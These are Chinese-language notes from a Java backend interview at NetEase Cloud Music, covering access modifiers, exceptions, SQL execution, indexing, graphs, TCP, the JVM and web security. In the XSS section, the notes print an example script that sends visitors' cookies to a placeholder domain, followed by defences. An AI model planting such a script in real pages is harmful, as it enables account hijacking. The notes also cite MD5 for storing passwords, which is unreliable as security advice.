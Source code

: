 ### 2019.8.15 网易云音乐 一面

48min 

OS：问的范围很广

1. 平时工作中使用的jdk版本（1.7和1.8）

2. 默认的是修饰符 defult ，访问权限

     |           | 同一个类 | 同一个包 | 不同包的子类 | 不同包的非子类 |
     | --------- | -------- | -------- | ------------ | -------------- |
     | private   | 可以     |          |              |                |
     | public    | 可以     | 可以     | 可以         | 可以           |
     | protected | 可以     | 可以     | 可以         |                |
     | default   | 可以     | 可以     |              |                |

3. ClassNotFound 遇到过吗？为什么？

     * 原因：类名写错、加载路径写错

4. RuntimeException 与一般异常的区别

     * 运行时异常：由java虚拟机抛出的异常。用户不必处理。运行时异常表示虚拟机的通常操作中可能遇到的异常，是一种常见运行错误。java编译器要求方法必须声明抛出可能发生的非运行时异常，但是并不要求必须声明抛出未被捕获的运行时异常。
     * 如 ArithmeticException, ConcurrentModificationException, IllegalArgumentException, IndexOutOfBoundsException, NullPointerException, 
     * 一般异常是用户可以抛出的异常，如果抛出调用必须进行处理。

5. 平时用的什么数据库？

6. sql语句，具体执行过程

     * 解析语句，判断是否有高速缓存，有则直接返回
     * 检查 SQL 语句的合法性，是否符合语法规则
     * 检查 SQL 语句的语义是否正确，如表名、字段
     * 获取对象锁
     * 访问权限核对
     * 优化 SQL 语句执行，并放入高速缓存中
     * 提取数据

7. 一个数据表，有五个字段（id,cardId,name,sex,age），如何建立索引？

8. 索引的底层结构（现在想一想可能会要讲一讲B+树索引）

9. 非关系型数据库了解吗？和关系型数据库的区别？
     什么时候用非关系型数据库？

10. 数据结构哪些比较熟？（回答熟悉 链表和树，图不太熟悉，结果面试官就问好多图）

11. ArrayList 和 LinkedList 区别，平时项目中用哪一个更多，具体场景？

12. 如何计算一棵树的高度？递归结束条件是什么？

13. 如何判断一个图是连通图？

14. 拓扑排序使用场景？具体思路？

15. HTTP 报文内容

16. TCP 建立连接过程

17. JVM 中堆和栈的区别？反射得到的类放在哪里？（应该是方法区）方法区会发生GC吗？（回收无用的类和常量） 项目中有遇到过方法区GC吗？

18. 线程池的初始化

19. CPU的 load （不会，Linux）

20. JSP 写过吗？

21. XSS（跨站脚本攻击）说了不知道，讲了知道的 SQL注入攻击

        * 跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

          * 供给与案例

          例如有一个论坛网站，攻击者可以在上面发布以下内容：

          ```
          <script>location.href="//domain.com/?c=" + document.cookie</script>
          ```

          之后该内容可能会被渲染成以下形式：

          ```
          <p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
          ```

          另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

          * 危害
            * 窃取用户的 Cookie
            * 伪造虚假的输入表单骗取个人信息
            * 显示伪造的文章或者图片

          * 防范手段

           1. 设置 Cookie 为 HttpOnly

          设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

           2. 过滤特殊字符

          例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

          富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

          富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

      * 跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。

        XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

        * 防范手段
          1. 检查 Referer 首部字段
          2. 添加校验 Token
          3.  输入验证码

      * SQL 注入攻击

        * 防范手段
          1. 使用参数化查询

22. 场景题：怎么存储用户的id和password？加密方法有哪些？（说了MD5）

23. 中间件了解哪些？讲讲 zookeeper 的选举机制，zookeeper 的存储结构？

24. 讲讲定时任务系统怎么做的，说了Eureka 注册中心

25. 有什么问题想问的？